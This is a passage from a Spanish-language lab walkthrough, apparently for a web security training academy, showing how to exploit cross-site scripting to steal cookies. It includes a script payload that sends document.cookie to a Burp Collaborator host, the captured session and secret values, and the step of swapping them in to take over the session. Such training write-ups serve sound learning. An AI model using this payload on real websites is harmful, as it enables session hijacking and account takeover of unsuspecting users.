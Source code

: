 ```
<script>document.location='http://lti3h8huag0tmmzul0n2ujpz0q6gu5.burpcollaborator.net/?'+document.cookie</script>
```

Entonces lo enviamos en el repeater, y esperamos la respuesta en el burp collaborator.

![](img2.png)

Entonces, la cookie robada es la siguiente:

```
secret=avJbuCyJJiBnI7NFZJ4sbbdOXdKAb4Py; session=4TWOZsQYlS5PASECvxhQPUONxdZ5qi6l
```

Entonces ingresamos al home del laboratorio, interceptamos el paquete y cambiamos la cookie para completar el laboratorio.

![](img3.png)

## 3. Lab: Exploiting cross-site scripting to capture passwords

